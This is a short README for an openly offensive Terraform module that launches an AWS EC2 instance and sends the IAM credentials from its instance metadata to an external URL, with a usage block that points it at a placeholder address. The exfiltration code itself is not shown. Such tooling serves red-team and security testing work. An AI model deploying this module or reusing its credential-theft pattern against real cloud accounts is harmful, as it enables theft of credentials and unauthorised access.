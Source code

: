 # AWS EC2 Instance Credential Exfiltration Module

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which creates EC2 instance and exfiltrate credential from Instance metadata to external URL.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-ec2-instance-credential-exfiltration/master/diagram.jpg)

## Usage
```
module "ec2_instance_credential_exfiltration" {
    source  = "offensive-terraform/ec2-instance-credential-exfiltration/aws"

    subnet_id = "subnet-0a4a1cc04"
    url = "http://0.0.0.0/"
    iam_role= "ec2-instance-role"
    iam_instance_profile = "ec2-instance-profile"
}
```
## Author
Module managed by https://github.com/iganbold